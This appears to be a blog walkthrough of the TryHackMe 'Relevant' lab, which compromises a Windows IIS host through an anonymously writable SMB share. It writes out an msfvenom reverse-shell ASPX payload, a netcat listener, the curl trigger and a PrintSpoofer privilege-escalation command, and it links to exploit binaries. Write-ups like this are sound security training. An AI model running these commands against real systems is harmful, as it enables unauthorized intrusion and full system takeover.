 ```yaml
---
title: "TryHackMe - Relevant - Walkthrough"
date: 2020-12-07T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - relevant
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Relevant][relevant]. Let’s get started!

# Overview
This room is laid out about as similar to a real-world pentest that a THM room can be. It comes with a Scope of Work (SOW) that you need to read through and follow. As the room states, it would be beneficial to treat this as a real pentest, and write a report on it. I won’t be doing that in this walkthrough, but I will do that on my own. I may post the report in a separate posting.

# User Flag
Since this is a black box test, let’s start with `rustscan`. This tool can be found [here][rustscan]. This tool will first scan the server, then pass the open ports into `nmap` for output.

Command: `rustscan -a <machine_ip> -- -A -Pn`

![r1](/assets/images/thm/relevant/r1-1.png)

As you can see, we have a web-server, SMB, and RDP ports open on this box. We also see 49663 port open with an IIS service.. We have a possible OS of Windows Server 2016 SE 14393.

Let’s checkout the port 80 web-server first!

![r2](/assets/images/thm/relevant/r2.webp)

We are met by an extremely blue default Windows IIS page. `nmap` gave a version of `httpd 10.0` that we can research exploits on. SMB also seems like a good route to go. Let’s enumerate smb with `smbclient`. This tool should be pre-installed on your Kali instance. If not, run `sudo apt install smbclient`

Let’s run it with this command:

`smbclient -L \\\\<machine_ip>`

Just press **Enter** when prompted for a password

![r3](/assets/images/thm/relevant/r3.png)

We can see there are a few directories listed. Can we connect to any? We can connect to `IPC$` with `smbclient \\\\<machine_ip>\\IPC$`. However, we get the following error:

`NT_STATUS_INVALID_INFO_CLASS listing \*`

Let’s try the last one: `nt4wrksv`

Success! `ls` the directory and we see `passwords.txt`

![r4](/assets/images/thm/relevant/r4.png)

Let’s view the file. `get passwords.txt`

Now we have 2 encoded passwords. Let’s decode them! Head to [base64decode.org][base64] to decode both of the strings.

Now, we have 2 usernames and passwords. You may have tried to login, enumerate more, etc with these 2 usernames and passwords. Well, this is what we call a **honeypot**. This was put in place by the creator of the room to trick us and waste our time. Job well done! This is a dead end.

Let’s go back to other options of getting in. We haven’t checked out the website, other than visiting it. Let’s enumerate directories!

`dirsearch -u http://<machine_ip> -E -x 400,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We didn’t find anything there. Let’s try the webserver on port 49663. Same default page, but what about a dirsearch?

![r9](/assets/images/thm/relevant/r9.webp)

Looks like there is a directory with the same name as the smb share that we found earlier. Let’s see if it is connected to the share we were in.

![r5](/assets/images/thm/relevant/r5.png)

This is good! Now, can we upload files? In a terminal, connect to the smb share and try to upload a file. `put file.txt`

![r6](/assets/images/thm/relevant/r6.png)

SUCCESS! Alright, now how can we exploit this? Let’s craft a payload with `msfvenom`!

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<thm_ip> LPORT=1234 -f aspx -o shell.aspx
```

Now upload the file to the SMB client. Start a `netcat` listener: `nc -lvnp 1234`. Now curl the file: `curl http://<machine_ip>/nt4wrksv/shell.aspx`

![r7](/assets/images/thm/relevant/r7.png)

Now navigate to a user folder to get the `user.txt` flag.

![r8](/assets/images/thm/relevant/r8.png)

#Root Flag
Now we need to find a way to do privilege escalation on this machine. Let’s start by going through our permissions. I like to follow this [Checklist][payloads].

When you run: `whoami /priv` we find something interesting.

![r11](/assets/images/thm/relevant/r11.png)

I found this [write-up][printspoof-w]. Let’s try this exploit! Exploit can be found [here][printspoof-e]. However, we need this to be compiled. You can compile this yourself, or just download the .exe [here][comp-print].

Get the file onto the system and then run: `PrintSpoofer.exe -i -c cmd`

![r12](/assets/images/thm/relevant/r12.png)

Now get the root flag!

![r13](/assets/images/thm/relevant/r13.png)

# Review
I thought this was an excellent room. It tested my skills and even caught me with that wonderful honeypot! I thought the creator of the room did a great job at keeping the room interesting and not having the normal points of entry!

# References
[TryHackMe][thm] | [Relevant Room][relevant] | [rustscan][rustscan] | [base64decode.org][base64] | [PayloadsAllTheThings WinPrivEsc Checklist][payloads] | [PrintSpoofer Write-Up][printspoof-w] | [PrintSpoofer Exploit][printspoof-e] | [Compiled PrintSpoofer.exe][comp-print]

[thm]: https://tryhackme.com
[relevant]: https://tryhackme.com/r/room/relevant
[rustscan]: https://github.com/RustScan/RustScan
[base64]: https://www.base64decode.org
[payloads]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration
[printspoof-w]: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
[printspoof-e]: https://github.com/itm4n/PrintSpoofer
[comp-print]: https://github.com/dievus/printspoofer